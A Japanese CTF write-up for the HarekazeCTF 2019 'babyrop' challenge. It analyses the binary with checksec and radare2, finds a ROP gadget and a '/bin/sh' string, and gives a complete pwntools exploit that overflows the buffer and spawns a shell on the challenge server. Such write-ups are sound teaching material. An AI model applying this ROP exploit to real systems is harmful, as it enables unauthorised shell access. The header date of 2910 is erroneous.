





// date: 2910-05-20

# はじめに
５月１８日、 [#HarekazeCTF](https://twitter.com/hashtag/HarekazeCTF) に「NekochanNano!」の一員として参加させていただきました。最後に５１０ポイントを集めることが出来、私たちは５２３チームが参加する中、６８位で終えました。

# babyrop

## プログラム解析

ncatで接続可能なアドレスとポート番号に、ELFバイナリを手に入れます。

まず、`checksec`を使い、ELFのセキュリティ機構を確認します。



RELRO、スタックカナーリやPIEが無く、すっごく助かります (^^;
<br>*これらのセキュリティ機構について、詳しくは[こちらの記事をご参照ください](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)。*

次に`radare2`で開き、main関数の逆アセンブリを解析しましょう。



結構簡単なプログラムですが、動作を言葉で説明すると、下記のような感じでしょうね

1. `echo`シェルコマンドの文字列を`rdi`に用意、`system`を呼び出すのでメッセージを出力する
2. `scanf`を使い、任意なサイズの入力をスタック変数(`rbp-0x10`)に読み込む
3. フォーマット形式と、`rbp-0x10`（前の入力）をレジスタで指定、`printf`で入力を含めたメッセージを表示する

この問題の名前が「babyrop」なので、そしてスタックカナーリがないため、ROPが使うべきだとわかりますね。

それでは、ROPを使うので`system("/bin/sh");`を実行することを目的としましょう。

## シェル奪いの作戦

`system`を呼び出せば、引数を正しく用意しないといけません。mainの逆アセンブリを参考とし、`system`を呼び出した前に、シェルコマンド文字列へのポインターを`edi`で指定したことがわかりますね。ちなみに`edi`ですが、この場合に一緒なので、`rdi`を使ってもOK。

したがって、`edi`あるいは`rdi`に値を指定するいわゆる「ROP Gadget」が必要となります。良かったことで、`radare2`にはそういうガジェットを発見するという機能がありますので、`pop rdi`のガジェットを探してもらいましょう。



さすが`radare2`ですね！よって`0x00400683`には、`pop rdi; ret`という命令が存在することがわかりました。

また、ポインターで指定できる`"/bin/sh"`の文字列を検索しましょうか。



よし。`0x601048`には、`"/bin/sh"`という文字列が置いてあるようです。これで、「ROP Chain」の準備がやっとできました！

## エクスプロイト作成

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

pop_rdi = p64(0x400683)
addr_binsh = p64(0x601048)
call_system = p64(0x4005e3)


payload = "a" * 0x10    # バッファーを超える
payload += "b" * 8      # RBP
payload += pop_rdi      # ガジェットに移動する
payload += addr_binsh   # rdiにpopされる
payload += call_system  # 関数の呼び出しに移動する

# sock = process(["./babyrop"])
sock = remote("problem.harekaze.com", 20001)
sock.readuntil("? ")
sock.sendline(payload)

sleep(1)
sock.interactive()
sock.close()
```

## シェルを奪い！



以上 HarekazeCTF-2019の「babyrop」のライトアップでした。

最後まで読んで頂き、ありがとうございました！
